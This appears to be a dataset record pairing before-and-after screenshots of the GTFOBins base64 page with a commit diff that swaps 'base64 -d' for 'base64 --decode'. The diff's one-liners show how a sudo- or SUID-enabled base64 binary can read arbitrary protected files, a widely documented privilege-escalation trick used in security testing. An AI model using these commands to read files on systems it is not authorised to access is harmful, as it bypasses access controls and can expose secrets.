

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/base64.md, in a window 1280 px wide. Shown: the top 823 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Make base64 portable

```diff
--- a/_gtfobins/base64.md
+++ b/_gtfobins/base64.md
@@ -3,13 +3,13 @@ functions:
   sudo-enabled:
     - code: |
         LFILE=file_to_read
-        sudo base64 "$LFILE" | base64 -d
+        sudo base64 "$LFILE" | base64 --decode
   suid-enabled:
     - code: |
         LFILE=file_to_read
-        ./base64 "$LFILE" | base64 -d
+        ./base64 "$LFILE" | base64 --decode
   file-read:
     - code: |
         LFILE=file_to_read
-        base64 "$LFILE" | base64 -d
+        base64 "$LFILE" | base64 --decode
 ---
```
